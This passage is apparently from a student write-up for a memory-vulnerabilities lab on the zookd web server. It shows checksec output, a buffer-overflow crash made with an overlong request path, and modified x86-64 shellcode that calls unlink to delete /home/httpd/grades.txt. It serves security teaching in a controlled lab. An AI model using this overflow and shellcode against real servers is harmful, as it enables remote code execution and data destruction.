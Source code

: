 The binary details for `zookd-exstack` were also obtained as follows, to ensure that no protection was placed to conduct this attack:

```bash
httpd@istd:~/labs/lab1_mem_vulnerabilities$ pwn checksec zookd-exstack
[*] '/home/httpd/labs/lab1_mem_vulnerabilities/zookd-exstack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

The idea is to overwrite the return address of `process_client`, hence returning to an invalid address entirely and cause a segmentation fault due to inaccessible memory. In this case, we need not have a surgical setup, since as long as we overwrote the return address, we are pretty much set for a fault. No encoding is also required, since we are simply providing a payload with url `/a....*5000`

Thus, for this part, we simply provided a `request path` that exceeds the 4096 bytes, along with a few more bytes as safety. In our initial testing, 5000 bytes was sufficient to do the trick. We made additonal changes to the exploit to use 4128 bytes instead. This will be explained in detail in part B.

## Part B

### Exercise 3.1

With the provided shellcode.S, the following changes have been modified to evoke `$SYS_unlink` on `"/home/httpd/grades.txt"`. Note that `STRLEN` has also been updated to `22`, accounting for the length of the string.

`shellcode.S`

```c
#include <sys/syscall.h>

#define STRING	"/home/httpd/grades.txt"
#define STRLEN	22
#define ARGV	(STRLEN+1)
#define ENVP	(ARGV+8)

.globl main
	.type	main, @function

 main:
	jmp	calladdr

 popladdr:
	popq	%rcx
	movq	%rcx,(ARGV)(%rcx)	/* set up argv pointer to pathname */
	xorq	%rax,%rax		/* get a 64-bit zero value */
	movb	%al,(STRLEN)(%rcx)	/* null-terminate our string */
	movq	%rax,(ENVP)(%rcx)	/* set up null envp */

	movb	$SYS_unlink,%al		/* set up the syscall number */
	movq	%rcx,%rdi		/* syscall arg 1: string pathname */
	leaq	ARGV(%rcx),%rsi		/* syscall arg 2: argv */
	leaq	ENVP(%rcx),%rdx		/* syscall arg 3: envp */
	syscall				/* invoke syscall */

	movb    $SYS_exit,%al		/* set up the syscall number */
	xorq	%rdi,%rdi		/* syscall arg 1: 0 */
	syscall				/* invoke syscall */

```